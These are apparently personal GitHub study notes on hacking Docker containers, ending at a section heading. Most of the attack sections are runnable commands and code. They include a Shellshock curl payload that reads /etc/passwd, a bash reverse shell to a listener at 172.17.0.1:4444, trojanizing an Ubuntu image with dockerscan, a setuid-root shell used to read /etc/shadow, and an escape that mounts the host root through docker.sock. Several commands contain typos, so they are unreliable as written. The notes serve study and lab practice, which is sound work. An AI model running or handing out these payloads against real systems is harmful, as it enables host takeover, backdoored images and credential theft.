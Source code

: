 # Hacking and Securing Docker Containers v2.0


Some of the notes that is specially outside from the [general notes](../Notes.md). 

Things that we will be looking at are:
- Introduction to Docker
- Docker fundamentals
- Attacks against docker environments
- Automated Assessments
- Defenses

---

## Hacking Docker Containers
### Docker Attack Surface
- External attackers using API
- Malicious insiders
- Compromised container (modified image)

### Exploting vulnerable images
This image has the vulnerability of a shellshock, affected many services (http, smtp, ssh)
[Image link](https://hub.docker.com/r/vulnerables/cve-2014-6271)
```bash
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271
```

Curl the command line to get the list of the password
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable
```

Curl the command line below to do a interative accessing the container
```bash
# Terminal 1
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 @>&l'" http://localhost:8080/cgi-bin/vulnerable

# Terminal 2: You can access data in the docker container
nc -nlvp 4444

```
Why 172.17.0.1? Use `ipconfig docker0` to get the ip address from the inet

### Backdooring docker images
```bash
git clone https://github.com/cr0hn/dockerscan.git
sudo python3.8 setup.py install

# Verify dockerscan is installed
dockerscan

# Change directory to backdoor and remove everything
cd ..
cd backdoor
rm -rf *

# Pull the latest ubuntu image and save it as a new tar image
docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-original

# Setting some environment variable
export LC_ALL=C.UTF-8
export LANG=C.UTF-8

# Finding the ip address to be used for backdooring
ipconfig docker0
### inet 172.17.0.1 <---- this ip address is the one we will be using

# Modifying the image
dockerscan image modify trojanize ubuntu-original -l 172.17.0.1 -p 4444 -o ubuntu-original-trojanized

# Terminal 1: To receive the reversed shell, and use the interative
nc -v -k -l 172.17.0.1 4444

# When someone pull your image
docker load -i ubuntu-original-trojanized.tar
docker run -it ubuntu:latest bash

# You can access it from Terminal 1
```

### Privilege Escalation
Getting the root access to the host machine as a non-root user

Four files are required
- Dockerfile
```yaml
FROM alpine:latest
COPY shellscript.sh shellscript.sh
COPY shell shell
```
- shell.c
```c
int main() {
    setuid(0);
    system("/bin/sh");
    return 0;
}
```
- shellscript.sh
```
#!/bin/bash
cp shell /shared/shell
chmod 4777 /shared/shell
```

Then we build the image
```sh
docker build --rm -t privesc .
```
- `shell` binary file under /usr/bin/shell

Then we can run the docker command
`docker run -v /tmp/:/shared/ privesc:latest /bin/sh shellscript.sh`
-v : setting the volume to link the /tmp on the local host to the shared folder in the container
privesc: Name of the image
/bin/sh shellscript.sh: Entrypoint for the docker run

Navigate to the tmp directory and run the shell, voila you get to acess all the files on the root access
```sh
cd /tmp
./shell
# id
# cat /etc/shadow
```

### Container Breakout techniques
Existing exploits
1. Over privileged containers - CAP_SYS_ADMIN, CAP_SYS_MODULE
2. Dangerous mountpoints - /var/run/docker.sock

### Docker socket (docker.sock)
- Docker socket is a UNIX socket, which is a backbone for managing containers.
- When we type Docker commands using docker cli client, it interacts with Docker daemon using the UNIX socket.
- This socket can be exposed over the network on a specific port - HTTP API.
- UNIX socket is the default setting.
- Mounting /var/run/docker.sock into the container is dangerous.

### Container escape using docker.sock
Getting a shell to start attac
`dockr run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh`

Install docker client
```
apk udpdate
apk add -U docker

```sh
Running another container in within the container and mount the root
```sh
docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
```
-H unix:///var/run/docker.sock: Specifying that this is the docker socket that docker can use
ro: readonly

Now we are inside the new container and we can access the root folder of the host
```sh
cd /test/root
```

### --privileged flag
- When --privileged flag is used with a container, it will give all Linux capabilities to the container.
- If an attacker gains access to the container he can take advantage of these capabilities.
- **cap_sys_admin**, **cap_sys_ptrace** and **cap_sys_module** are some of the dangerous capabilities to be exploited by attacked.
- When an attacker gains a shell on the container and if it has cap_sys_module enabled, it is possible to load a kernel module directly onto the host’s kernel from within the container.

```sh
# Using the privilege flag
docker run -it --privilege alpine sh

# Install
apk add -U libcap

# Get the list of the privilege capabilities
capsh --print

```

### Writing to kernel space from a container